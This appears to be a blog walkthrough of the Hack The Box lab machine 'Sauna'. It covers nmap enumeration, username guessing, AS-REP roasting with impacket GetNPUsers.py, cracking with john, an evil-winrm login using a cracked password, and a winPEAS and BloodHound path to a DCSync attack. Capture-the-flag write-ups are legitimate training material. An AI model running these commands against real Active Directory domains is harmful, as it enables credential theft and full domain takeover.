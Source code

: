 ```yaml
---
layout: post
title: Hack The Box - Sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
  
<p align="center"> Sauna is a easy machine created by <a egotisticalSW href="https://www.hackthebox.eu/home/users/profile/94858"> egotisticalSW</a></p>

# Enum  
  
  
### <center>nmap</center>  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
<p align="center">  
nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was <a href=https://www.tarlogic.com/en/blog/how-to-attack-kerberos/>kerberoasting</a>  
I used <a href="(https://github.com/ifconfig-me/impacket">impacket</a>'s GetADUser.py, but got nothing...  
  
In port 80 I got this page  
</p>  
  
# ![index](/assets/img/sauna/sauna1.png)  
  
<center>Searching something usefull I found usernames on page "About Us"</center>  
# ![users](/assets/img/sauna/sauna2.png)  
  
<p align="center">  
I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py</p>  
  
  
### <center>Exploit</center>
<center>./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash</center>  
  
  
# ![fsmithHash](/assets/img/sauna/sauna3.png)  
  
<p align="center">
With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash  
  
</p>
# ![passwd](/assets/img/sauna/sauna4.png)
  
<p align="center">The part I like most in attacking windows, is the <a href="https://github.com/Hackplayers/evil-winrm">evil</a> part
  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith</p>  
  
# ![evilLogin](/assets/img/sauna/sauna5.png)  
  
### <center>Privilege Escalation</center>  
  
<p align="center">To privelige escalation in windows the first thing I use is <a href="https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat">winPEAS.bat</a>  
  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it  
winPEAS spits a lot of informations about everything in the machine  
and found a pass for other user</p>  
# ![svc](/assets/img/sauna/sauna6.png)  
  
<p align="center">Logged in as svc\_loanmgr and invoked the <a href="https://github.com/fox-it/BloodHound.py">hound</a></p>  
  
# ![bloodHound](/assets/img/sauna/sauna7.png)  
  
<center>ziped the json files and sent it to bloodhound</center>  
  
<center>The hound says: svc\_loanmgr is connected to egotistical-bank with getChangesAll and you should try a DCSYnc attack..</center>  
  
# ![HoundHelp](/assets/img/sauna/sauna8.png)  
  
<center>Let's get back to impacket</center>  
  
# ![hashdump](/assets/img/sauna/sauna9.png)  
  
<center>And evil again</center>  
  
# ![evilAdmin](/assets/img/sauna/sauna10.png)  
  
